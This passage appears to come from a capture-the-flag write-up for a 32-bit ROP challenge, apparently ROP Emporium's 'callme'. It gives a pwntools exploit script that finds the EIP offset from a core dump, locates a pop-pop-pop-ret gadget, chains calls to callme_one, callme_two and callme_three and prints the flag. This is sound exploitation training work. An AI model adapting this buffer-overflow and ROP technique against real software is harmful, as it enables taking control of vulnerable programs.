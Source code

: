  ```python
io.wait()

# Open up the corefile
core = io.corefile

# Print out the address of EIP at the time of crashing
eip_value = core.eip
eip_offset = cyclic_find(eip_value)
info('located EIP offset at {a}'.format(a=eip_offset))

# ROP
rop = ROP(elf)  # Load rop gadgets
# print(rop.dump())
# pprint(rop.gadgets)

# Address needed to put parameters in registers
pop3 = rop.find_gadget(["pop esi", "pop edi", "pop ebp", "ret"])[0]
info("%#x pop esi; pop edi; pop ebp; ret;", pop3)

# Craft a new payload which puts the "target" address at the correct offset
payload = flat(
    asm('nop') * eip_offset,
    callme_one,
    pop3,
    0xdeadbeef,
    0xcafebabe,
    0xd00df00d,
    callme_two,
    pop3,
    0xdeadbeef,
    0xcafebabe,
    0xd00df00d,
    callme_three,
    pop3,
    0xdeadbeef,
    0xcafebabe,
    0xd00df00d,
)

# Send the payload to a new copy of the process
io = start()
io.sendlineafter('>', payload)
io.recvuntil('Thank you!\n')

# Get our flag!
flag = io.recv()
success(flag)
 ```



### autopwn script
